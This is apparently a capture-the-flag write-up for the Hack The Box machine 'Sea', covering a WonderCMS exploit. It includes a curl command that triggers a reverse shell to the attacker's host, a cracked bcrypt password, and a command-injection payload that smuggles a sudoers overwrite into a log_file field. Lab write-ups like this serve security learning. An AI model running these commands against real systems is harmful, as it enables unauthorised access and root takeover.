 1,enumerate the ports and services
22/tcp ssh
80/tcp http

2,check the pages and web contents
Firstly, we can use fuff to enumerate the survival urls
![](images/Pasted%20image%2020240813080552.png)From that we can find something interesting:
But very sad, there is nothing useful for us.

So let's check the virtual machine or hosts
`ffuf -u http://sea.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.sea.htb" -fw 582
`
Also in the rabbit hole, so just come to the web page, and let's check the `contact.php`

There would be a little wired url ` http://sea.htb/themes/bike/README.md`
This file give us the hints: `Login to your WonderCMS website.`

So we get the name of power or CMS
Let's find something exploitable for this:
`https://github.com/prodigiousMind/CVE-2023-41425.git`
Then from the poc,we can know the login page is in `http://sea.htb/loginURL`

2, get the user shell
Firstly, we need to put the payload into the /contact.php, it would lead to reverse XSS by the web administrator
Then we need to trigger it 
`curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.65&lport=443'`
Then we get the www-data shell 
By enumerate the directory `/var/www/sea/`
We find the `/var/www/sea/databases.js`
Then we get the certificate
`"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
`
So we can use hashcat or john to crack it offline
`hashcat cred.hash -m 3200 /usr/share/wordlists/rockyou.txt`

Then we get the result 
`$2a$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance`
There are two users `amay and geo`
Then try to switch to their user account

When we enumerate the ports and services
`netstat -tuln`
```\amay@sea:~$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:37579         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:* 
```
The port 8080 is attractive.

So let's port forwarding to localhost
`ssh amay@sea.htb -L 8080:localhost:8080`

Then just use browser to check the web page
`There is a # System Monitor(Developing)

So there would be a command injection  and this is our payload:
`curl -X POST 'http://localhost:80/' -d "log_file=/root/root.txt;cp /dev/shm/sudoers > /etc/suoders&analyze_log="



